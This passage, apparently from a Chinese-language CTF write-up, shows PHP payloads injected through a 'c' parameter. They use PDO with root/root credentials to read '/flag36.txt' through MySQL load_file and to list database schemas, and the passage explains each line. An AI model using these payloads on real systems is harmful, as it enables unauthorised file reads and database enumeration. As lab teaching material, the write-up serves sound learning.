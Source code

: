 将脚本进行URL编码，进行提交拿到flag

解释：

```
try {
    // 使用PDO（PHP Data Objects）创建一个新的数据库连接对象，指定DSN、用户名（root）和密码（root）
    $dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root', 'root');
    
    // 执行一个SQL查询，从指定的文件（/flag36.txt）中读取内容
    foreach($dbh->query('select load_file("/flag36.txt")') as $row) {  
        // 输出读取到的内容，并追加一个竖线（|）
        echo($row[0])."|";
    }
    
    // 将数据库连接对象设置为null，关闭连接
    $dbh = null;
} catch (PDOException $e) {
    // 如果发生PDO异常，输出错误信息
    echo $e->getMessage();
    // 终止脚本执行
    die();
}
 
// 终止脚本执行
exit();
```

>  $dbh 是数据库连接句柄（database handle），它是通过 new PDO 创建的，用于与数据库进行交互。
>
> PDO（PHP Data Objects）是PHP中的一个扩展，它提供了一个统一的接口来访问不同的数据库。它支持预处理语句和事务，使数据库操作更安全和高效。
>
> DSN（数据源名称，Data Source Name）是一个包含数据库连接信息的字符串。它通常包括数据库类型、主机名、数据库名称等信息。在创建PDO对象时指定，即 'mysql:host=localhost;dbname=information_schema'。这个字符串包含了数据库类型（mysql）、主机名（localhost）和数据库名称（information_schema）。
>
> foreach 是PHP中的一个控制结构，用于遍历数组或对象。在上面payload中，foreach 用于遍历SQL查询的结果集（由 $dbh->query 返回），并处理每一行的数据。
>

数据可名字可以用这个命令脚本来查：

```
c=$dsn = "mysql:host=localhost;dbname=information_schema";
$db = new PDO($dsn, 'root', 'root');
$rs = $db->query("select group_concat(SCHEMA_NAME) from SCHEMATA");
foreach($rs as $row){
        echo($row[0])."|"; 
}exit();
```

![image-20250217233857384](assets/image-20250217233857384.png)
